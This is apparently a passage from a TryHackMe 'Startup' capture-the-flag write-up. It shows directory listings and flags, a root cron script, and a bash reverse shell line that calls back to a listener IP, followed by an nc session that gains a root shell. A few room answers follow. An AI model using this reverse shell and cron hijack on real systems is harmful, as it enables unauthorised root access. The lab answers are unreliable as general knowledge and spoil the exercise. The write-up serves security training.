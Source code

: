 ```
lennie@startup:~$ ls -lA
total 12
drwxr-xr-x 2 lennie lennie 4096 Nov 12 04:53 Documents
drwxr-xr-x 2 root   root   4096 Nov 12 04:54 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12 04:53 user.txt
lennie@startup:~$ cat user.txt
THM{V0N318*****03ce3d619b80ccbfb3b7fc81e46c0e79}
```

```
lennie@startup:~$ ls -lA scripts/
total 8
-rwxr-xr-x 1 root root 77 Nov 12 04:53 planner.sh
-rw-r--r-- 1 root root  1 Nov 13 12:55 startup_list.txt
lennie@startup:~$ cat scripts/startup_list.txt

lennie@startup:~$ cat scripts/planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~$ echo $LIST

lennie@startup:~$
```

```bash
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/10.8.106.222/9002 0>&1'
```

```
bibo318@parrot:~/CTFs/tryhackme/Startup$ nc -lnvp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.36.184 36364
bash: cannot set terminal process group (1690): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# ls -lA
ls -lA
total 20
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x 2 root root 4096 Nov 12 04:54 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   38 Nov 12 04:53 root.txt
drwx------ 2 root root 4096 Nov 12 04:50 .ssh
root@startup:~# cat root.txt
cat root.txt
THM{V0N318*****f963aaa6a430f210222158ae15c3d76d}
```

What is the secret spicy soup recipe?

`love`

What are the contents of user.txt?

